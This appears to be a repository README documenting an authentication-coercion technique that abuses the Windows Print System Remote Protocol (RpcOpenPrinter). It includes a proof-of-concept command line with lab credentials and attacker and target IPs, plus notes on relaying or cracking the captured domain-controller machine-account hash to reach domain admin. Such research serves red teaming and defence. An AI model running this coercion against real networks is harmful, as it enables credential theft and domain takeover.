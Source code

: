 # MS-RPRN - Remote call to RpcOpenPrinter (opnum 1)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f)

 - **Function operation number**: `1`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinter(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcOpenPrinter(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired
);
```

 - **pPrinterName**: A `STRING_HANDLE` (section 2.2.1.1.7) for a printer connection, printer object, server object, job object, port object, or port monitor object. For opening a server object, this parameter MUST adhere to the specification in Print Server Name Parameters (section 3.1.4.1.4); for opening all other objects, it MUST adhere to the specification in Printer Name Parameters (section 3.1.4.1.5).


 - **pHandle**: A pointer to a `PRINTER_HANDLE` (section 2.2.1.1.4) that MUST receive the RPC context handle [C706] to the object identified by the `pPrinterName` parameter.


 - **pDatatype**: A pointer to a string that specifies the data type to be associated with the printer handle. This parameter MUST adhere to the specification in Datatype Name Parameters (section 3.1.4.1.1).


 - **pDevModeContainer**: A pointer to a `DEVMODE_CONTAINER` structure. This parameter MUST adhere to the specification in `DEVMODE_CONTAINER` Parameters (section 3.1.4.1.8.1).


 - **AccessRequired**: The access level that the client requires for interacting with the object to which a handle is being opened. The value of this parameter is one of those specified in Access Values (section 2.2.3.1) or 0. For rules governing access values, see section 2.2.4.1. If `AccessRequired` is set to 0 (if no specific access level is requested), the server MUST assume a `GENERIC_READ` (section 2.2.3.1) access level.

## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


 - Documentation of function `RpcOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f